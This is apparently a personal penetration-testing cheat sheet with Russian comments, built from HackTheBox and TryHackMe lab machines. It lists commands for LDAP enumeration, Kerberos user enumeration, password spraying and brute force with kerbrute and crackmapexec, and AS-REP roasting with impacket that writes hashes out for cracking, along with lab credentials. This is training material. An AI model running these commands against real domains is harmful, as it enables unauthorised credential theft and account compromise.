 ldapsearch -H ldap://10.10.10.161 -x

ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb, DC=local"

ldapsearch -H ldap://10.10.10.20 -x -b "DC=htb, DC=local" '(objectClass=User)' "sAMAccountName" | grep sAMAccountName

ldapsearch -H ldap://dc1.scrm.local -U ksimpson -b 'dc=scrm,dc=local'

	ldapsearch -x -H ldap://10.10.10.182 -s base namingcontexts (Инфо о домене)
 	
	ldapsearch -x -H ldap://10.10.10.182 -s sub -b 'DC=cascade,DC=local' (Инфо в домене)

 	cat ldap_info| awk '{print $1}' | sort| uniq -c| sort -nr | grep ':'


можно попробовать -
[windapsearch](https://github.com/ropnop/windapsearch)

-------------еще энумерация LDAP и поиск доменных юзеров------------------------

impacket-GetADUsers egotistical-bank.local/ -dc-ip 10.10.10.175 -debug

impacket-GetADUsers active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -all

------------еще ldap-shell

https://github.com/PShlyundin/ldap_shell


# KERBRUTE

https://github.com/ropnop/kerberos_windows_scripts/blob/master/kinit_horizontal_brute.sh

https://github.com/ropnop/kerbrute

./kerbrute_linux_amd64 userenum --dc 192.168.1.19 -d ignite.local users.txt  (Проверка валидных пользоввателей с преатентификациеей)

~/kerbrute_linux_amd64 userenum --dc 10.10.10.52 -d htb.local /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt (Проверка валидных пользоввателей с преатентификациеей)


./kerbrute_linux_amd64 passwordspray --dc 192.168.1.19 -d ignite.local users.txt Password@1  (Распыление пароля)

./kerbrute_linux_amd64 bruteuser --dc 192.168.1.19 -d ignite.local pass.txt username

kerbrute passwordspray userlist NewIntelligenceCorpUser9876 --dc 10.10.10.248 -d intelligence.htb

 Может не сработать тогда надо -->>>  crackmapexec smb 10.10.10.248 -u username.txt -p NewIntelligenceCorpUser9876 

# Поиск учетных записей без преаутентификации керберос (НУЖЕН СПИСОК ПОЛЬЗОВАТЕЛЕЙ)

python3 GetNPUsers.py enterprise.thm/ -dc-ip 10.10.38.153 -usersfile /home/max/users.txt -no-pass

impacket-GetNPUsers -no-pass raz0rblack.thm/ -usersfile user.txt -format hashcat -outputfile hash.txt
